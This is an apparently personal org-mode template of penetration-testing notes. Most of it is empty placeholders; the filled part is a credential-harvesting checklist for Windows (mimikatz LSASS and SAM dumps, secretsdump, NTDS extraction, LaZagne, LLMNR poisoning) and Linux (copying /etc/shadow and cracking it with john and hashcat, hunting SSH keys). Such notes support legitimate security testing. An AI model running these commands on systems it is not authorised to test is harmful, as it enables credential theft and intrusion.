 #+title: Pentest Notes & Todo List
#+AUTHOR: MDB Dev
#+DESCRIPTION: Pentest Notes & Todo List
#+auto_tangle: t
#+STARTUP: showeverything

* NOTE Reconnection Steps:
:PROPERTIES:
:ID:       727d5790-878b-4497-910d-183986c181b5
:END:
1. Do x
2.
* Sanity Check:
:PROPERTIES:
:ID:       fa80888e-5275-4155-af5c-511c04cb3889
:END:
** What do we know?
:PROPERTIES:
:ID:       8c60be34-d664-4001-8a66-00697a6d58a5
:END:
+Do you need to enumerate more?+
  1.
  2.
** What did I learn?
:PROPERTIES:
:ID:       5a666c73-1f83-4b6e-98a6-3210367d5e88
:END:
  1.
  2.
  3.
** What silly mistakes did I make?
:PROPERTIES:
:ID:       849b05fc-6fd5-4279-8fbf-869a2e7bfa82
:END:
  1.
  2.

* NOTES:
:PROPERTIES:
:ID:       6fb0b403-5b57-4b48-b7b8-45cada6359c8
:END:
* +TODO-LIST+: [0/3]
:PROPERTIES:
:ID:       26f17e2a-15b0-486f-92f5-80e8c7ea9afa
:END:
** NEXT Actions [/]:
:PROPERTIES:
:ID:       f0a0333d-00b3-418c-bf91-589ca4131434
:END:
** TODO
:PROPERTIES:
:ID:       c42736a2-12b4-4698-8a2b-20eb065e9f48
:END:
** TODO
:PROPERTIES:
:ID:       badcc277-4e00-4a28-a37a-6a7fd5fd19e1
:END:
** TODO
:PROPERTIES:
:ID:       ed957676-965a-4b1b-8edd-e69ecd7508e9
:END:
** DONE:
:PROPERTIES:
:ID:       daa15b84-4ae1-46d6-86f7-3eddc238a38f
:END:

* TODO Cred Hunt Every Host!!!
:PROPERTIES:
:ID:       6e961a62-7f8b-4e47-ae64-152c2a65bdc2
:END:
- These are easy wins and not a substitute for manually searching ourselves.
- Copy the checklist to each hosts note section and ensure performed.
** Windows Pillaging [0/7]:
:PROPERTIES:
:ID:       99c501b5-d2fd-4bc1-8d8e-0001d651e558
:END:
- [ ] *mimikatz.exe*
  - [ ] _Pull creds/hashes from_ [[id:93ff5fc6-ee8d-4450-b463-2d1223c09080][LSASS]]:
    1. [ ] sekurlsa::minidump lsass.dmp
    2. [ ] sekurlsa::logonpasswords
  - [ ] _Export Kerberos Tickets_:
    - [ ] sekurlsa::tickets /export
  - [ ] _SAM_:
    - [ ] lsadump::sam
  - [ ] _Dump all clear text passwords_:
    - [ ] sekurlsa::logonpasswords
- [ ] *Dump Hashes Impacket*:
  - [ ] impacket-secretsdump <Domain>/<user>:'<pass>'@<host> -dc-ip <DC-IP>
- [ ] *Dump NTDS.dit CME*
  - [ ] crackmapexec smb <ip> -u <username> -p '<password>'--ntds
- [ ] *LaZange Pillage Passwords*:
  - [ ] .\LaZagne.exe all -v
- [ ] *Snaffler*
  - [ ] Snaffler.exe -s -d <domain>.local -o <logFileName>.log -v data
- [ ] *LLMNR Poisoning*:
  - [ ] Inveigh.exe
    - [ ] .\Inveigh.exe
- [ ] [[id:98aa96c3-6d28-4fa0-894a-d4921c927a46][Manual Credential & file hunting in Windows:]]

** Linux Pillaging [0/7]:
:PROPERTIES:
:ID:       4138e9ee-807f-40da-ada8-f688913037ea
:END:
- [ ] *Dump Shadow Files* [0/4]:
  1. [ ] sudo cp /etc/passwd /tmp/passwd.bak
  2. [ ] sudo cp /etc/shadow /tmp/shadow.bak
  3. [ ] unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
  4. [ ] Then use [[id:ae66bd84-6b57-4f92-9bb7-eca150f47435][Hashcat]] to crack the file or john.
     - john --wordlist=~/Wordlists/rockyou.txt unshadowed.hashes
     - hashcat -m 500 unshadowed.hashes ~/Wordlists/rockyou.txt
     - hashcat -m 1800 unshadowed.hashes ~/Wordlists/rockyou.txt
       - If sha512crypt ($6)
     - +Note+: Sometimes the hashes will not be in md5crypt format (500 in hashcat) if so check what format they are in using john or hashes.com then find relevant hash
- [ ] *Check for SSH Keys*:
  - [ ] Root
  - [ ] Users
- [ ] Bashrc
- [ ] Bash History
- [ ] Mysql conf files.
- [ ] WebServers
- [ ] [[id:d574913e-857f-4028-ad80-14fd94e9d538][Search for credentials in Linux Files:]]
